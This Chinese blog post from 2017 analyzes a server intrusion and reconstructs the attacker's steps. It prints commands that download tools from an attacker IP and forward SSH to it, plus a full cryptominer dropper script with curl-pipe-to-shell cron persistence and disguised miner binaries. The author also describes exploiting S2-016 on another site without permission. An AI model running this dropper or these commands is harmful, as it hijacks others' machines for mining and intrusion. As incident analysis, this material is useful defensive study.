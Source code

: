 ```yaml
---
layout:   post
title:  "某服务器被黑，追踪入侵者"
subtitle: "记录一次入侵分析的经历"
date:  2017-07-05 23:28:02 +0800
author: Les1ie
catlog: true
tags:
 - 网络安全
 - 入侵分析
---
```

## 0x01 
一个linux运维的群里面，今天突然有人说服务器被黑了，找人帮忙分析，日志被清除了，只留下了几条执行过的命令，他给出了个几个截图，都是他执行过的命令
![](/img/s2-016/first-ask.png)


## 0x02 
看了下他的截图， 攻击者最初是如何进入系统的已经无法知道了，说让他给我他公司服务器地址让我测试也没后文，所以对方如何进入服务器我也不得而知，他说服务器是tomcat的，觉得可能有apache的几个漏洞进去的，或者是账户被爆破，密钥泄露之类的

后来他给出了几个截屏，里面看到他在一个网站下载了一个工具包，目测是肉鸡，然后在里面拿出了扫描器, 然后扫了一波内网。
攻击者最初
```
$ wget http://98.142.135.215:8088/scan.tar.gz
```
攻击者下载了扫描的工具包，扫了一波内网，然后似乎是发现这个东西扫不动，编译了pscan2继续来，执行了
```
$ ./x 192.168
```
扫了整个内网
接着 
```
$ wget http://98.142.135.215:8088/portmap
```
![](/img/s2-016/subnet1.png)
这个时候是拿到了边缘主机的权限，下载工具准备搭建代理，准备内网继续攻击。
```
$ ./portmap -m 3 -h1 127.0.0.1 -p1 22 -h2 98.142.135.215 -p2 6666
```
嗯，这个人其实最开始没有加`./portmap`, 也没有 `chmod +x portmap`, 直接执行了`portmap xxxxx` 哈哈哈哈

![](/img/s2-016/portmap.jpg)
现在代理搭建好了，22转发到了攻击者机器去了


后来他说在几台内网弱口令机器里面发现了攻击者下载的文件。我去肉鸡上把他下载下来了，上传到这里了，感兴趣的可以拿去分析一下。
[lssh.jpg](/img/s2-016/lssh.jpg)

以及

[xmr.tar.gz](/img/s2-016/xmr.tar.gz)

攻击者扫的内网看起来收获不小...拿到了好多台服务器，内网真是个危险的地方

后来他说他没意识到攻击者此时正在他的电脑上，然后攻击者在发现他结束了恶意进程之后便删去日志走了



## 0x03
其实写博客的时候才发现他给的截图里面很多信息我都没注意到

我看了下下载`lssh.jpg`和`xmr.tar.gz`的网站，注意到了网址是`xxx.xx.com/index.action`觉得很有可能是s2-045打进去的，网上找了很多exp都不行，打不进去，后来找同学要了另外的exp, 发现另外的漏洞， s2-016, cve编号cve-2013-2251，还是一个远程执行的漏洞，拿着这个直接打进去了，找了下网站的根目录，发现了前人的脚步，很多的传上来的文件还有jsp的一句话,这时候不想继续干下去了，因为怕事。。。另一个原因是...编程之美要提交项目了我还没干完...

另外发现网站的首页被挂了黑链
![](/img/s2-016/link.png)
..然后想了想，决定给管理员发邮件，网站被前人干成这样了都..

晚上突然想着不如扔给补天吧，这样我不用自己出面找管理员补洞了。

我自己在虚拟机里面下载了`xmr.tar.gz`, 看了下里面有这样的东西
![](/img/s2-016/xmr_file.png)

代码如下
```bash
cat lssh.jpg 
#!/bin/sh
export PATH=$PATH:/bin:/usr/bin:/usr/local/bin:/usr/sbin
plt=`cat /proc/cpuinfo|grep aes`
ps x|grep stratum|grep -v grep|awk '{print $1}'|xargs kill -9 > /dev/null 2>&1
if [ `whoami` = "root" ]; then
    echo "*/5 * * * * curl -fsSL http://www.x.com/picture/lssh.jpg  | sh" > /var/spool/cron/root
    mkdir -p /var/spool/cron/crontabs
    echo "*/5 * * * * curl -fsSL http://www.x.com/picture/lssh.jpg  | sh" > /var/spool/cron/crontabs/root
curl -O http://www.x.com/picture/lssh.jpg  > /dev/null 2>&1; mv lssh.jpg /etc/cron.daily/anacron ; chmod +x /etc/cron.daily/anacron||wget -O /etc/cron.daily/anacron http://www..jpg > /dev/null 2>&1 ; chmod +x /etc/cron.daily/anacron
else
    echo "*/5 * * * * curl -fsSL http://www.x.com/picture/lssh.jpg | sh" |crontab -	
fi
DoYam()
{
	if [ ! -f "/var/tmp/xmr.tar.gz" ]; then
curl -fsSL  http://www.x.com/picture/xmr.tar.gz -o /var/tmp/xmr.tar.gz || wget  http://www.x.com/picture/xmr.tar.gz -O /var/tmp/xmr.tar.gz
    fi
	tar zxf /var/tmp/xmr.tar.gz -C /var/tmp/	
    chmod +x /var/tmp/xmr/*
	export LD_LIBRARY_PATH=/var/tmp/xmr
	cd /var/tmp/xmr
	if [ "$plt" != "" ]
     then 
     (exec ./httpd -c httpd.cnf &> /dev/null &)
     else
	 #no aes 
	 (exec ./apache -c httpd.cnf &> /dev/null &)
    echo no
    fi
}
#ps auxf|grep -v grep|grep "httpd.conf" || DoYam
ps x |grep httpd.cnf|grep -v grep || DoYam
```


发现我们 naive了..这个就是个挖矿的，检测是否支持aes是用来启动不同的挖矿程序，而不是...httpd和apache

他说内网的机器也被部署挖矿的了，新上线的主机也是弱口令..



2017年7月6日01:47:33

赶紧睡觉，明早有课，感觉药丸




